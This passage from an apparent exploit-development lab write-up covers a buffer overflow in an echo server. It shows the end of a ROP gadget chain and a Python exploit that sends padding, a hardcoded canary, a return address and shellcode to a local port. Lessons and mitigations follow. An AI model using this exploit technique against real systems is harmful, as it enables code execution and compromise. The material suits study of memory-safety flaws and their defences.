      0x7800ab8b,  # POP EAX # RETN [MSVRCT2.dll]
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x78009791,  # PUSHAD # ADD AL,80 # RETN [MSVRCT2.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 16000))

#### PAYLOAD para ROP #####
# payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA"  "AAAA" + "BBBB" + rop_chain + "\x90"*8 + “\x40”*4
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + struct.pack("<I", 0x0018FF34) + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Code 4. Final exploit code in Python (Exploit.py)._

## Conclusions

Throughout the document the steps followed for the analysis of the application and the exploitation of the present vulnerabilities through different techniques have been detailed. The code corresponds to an echo server that expects to receive a message where its length is included as a header. The problem is that the capacity of the variable to store the length of the message is much larger than the space reserved in the *buffer* to store the message itself.

Given this situation, an *exploit* like the one seen in Code 4 can be built to overwrite the *buffer* and the return address with the goal of redirecting the program flow to a controlled memory area where the «malicious» code will be executed.

This exploitation is made easier, since both the executable and the associated library do not include any protection in their compilation that would make these attacks more difficult, for example, by preventing the execution of code in memory areas intended for data or the randomization of memory addresses (ASLR). While it is true that a *canary cookie* is implemented to try to detect overflows in the *buffer*, this is *hardcoded* in the source code and, therefore, it is easy to discover and bypass this measure.

### Lessons learned

- **Never trust the length declared by the client.** The root flaw is not in `recv`, but in reading as many bytes as the attacker requests into a fixed-size *buffer*.
- **A poorly implemented mitigation is a false sense of security.** The *canary cookie* existed, but by being *hardcoded* (`0x95125613`) it becomes just another step of the *payload*, not a barrier.
- **Without DEP/ASLR, exploitation is almost direct;** when we simulate that protection, ROP allows us to circumvent it by reusing legitimate code from a DLL without protections (`MSVRCT2.dll`).
- **The available space constrains the *shellcode*.** The byte limit forced us to give up the full *shellcode* in the ROP case and to demonstrate execution control with something more modest (`inc eax`).

### Security measures to implement

To mitigate or at least hinder this exploitation, the following is recommended:

- The use of random *cookies* on each execution that are not easily discoverable.
- The use of compile-time protections that enable parameters such as **SafeSEH**, **ASLR** and **DEP**.
- And, above all, at the code level, **checking that the length of the message fits the capacity of the *buffer*** where it is stored, thus preventing overflows that overwrite other memory areas of the program.
